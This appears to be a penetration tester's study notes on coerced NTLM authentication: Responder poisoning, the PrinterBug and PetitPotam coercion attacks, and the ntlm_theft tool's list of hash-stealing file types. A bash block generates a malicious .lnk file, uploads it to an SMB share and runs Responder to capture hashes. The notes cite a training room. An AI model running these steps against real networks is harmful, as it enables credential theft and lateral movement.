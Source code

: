 # Coerced Authentication


On a LAN [Responder](https://github.com/lgandx/Responder) (consider [[Responder-Cheatsheet]]) will attempt to poison Link-Local Multicast Name Resolution [[LLMNR-Poisoning]] , NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests on the network. The NBT-NS, WPAD and LLMNR  protocols rely on requests being broadcasted on the local network. If unable to lisTen and poison requests creation of requests from:
- PrintSpooler is an attack that coerces the Print Spooler service on Windows hosts to authenticate to a host of your choosing. 
- PetitPotam coercing a the machine account to perform an authentication attempt
	- Machine account *normally* are changed every 30 days and are randomised and are not crackable in a practical sense of computer power required.

## Tools

[[Responder-Cheatsheet]]

If the network still uses NetNTLM for whatever reason:

[ntlm_theft](https://github.com/Greenwolf/ntlm_theft) *A tool for generating multiple types of NTLMv2 hash theft files by Jacob Wilkin (Greenwolf) ...supports the following attack types:
- Browse to Folder Containing
    - .url – via URL field
    - .url – via ICONFILE field
    - .lnk - via icon_location field
    - .scf – via ICONFILE field (Not Working on Latest Windows)
    - autorun.inf via OPEN field (Not Working on Latest Windows)
    - desktop.ini - via IconResource field (Not Working on Latest Windows)
- Open Document
    - .xml – via Microsoft Word external stylesheet
    - .xml – via Microsoft Word includepicture field
    - .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
    - .docx – via Microsoft Word includepicture field
    - .docx – via Microsoft Word external template
    - .docx – via Microsoft Word frameset webSettings
    - .xlsx - via Microsoft Excel external cell
    - .wax - via Windows Media Player playlist (Better, primary open)
    - .asx – via Windows Media Player playlist (Better, primary open)
    - .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
    - .jnlp – via Java external jar
    - .application – via any Browser (Must be served via a browser downloaded or won’t run)
- Open Document and Accept Popup
    - .pdf – via Adobe Acrobat Reader
- Click Link in Chat Program
    - .txt – formatted link to paste into Zoom chat

Usage examples
```bash
pip3 install xlsxwriter

# -g, --generate	: Choose to generate all files or a specific filetype
# -s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
# -f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)

python3 ntlm_theft.py -g lnk -s $listeningIP -f $lnkDocName


smbclient //$IP/$ShareName/ -U $user
smb>put $lnkDocName.lnk


responder -I $interface

```

## References

[THM AoC 2023](https://tryhackme.com/room/adventofcyber2023)
[Responder](https://github.com/lgandx/Responder)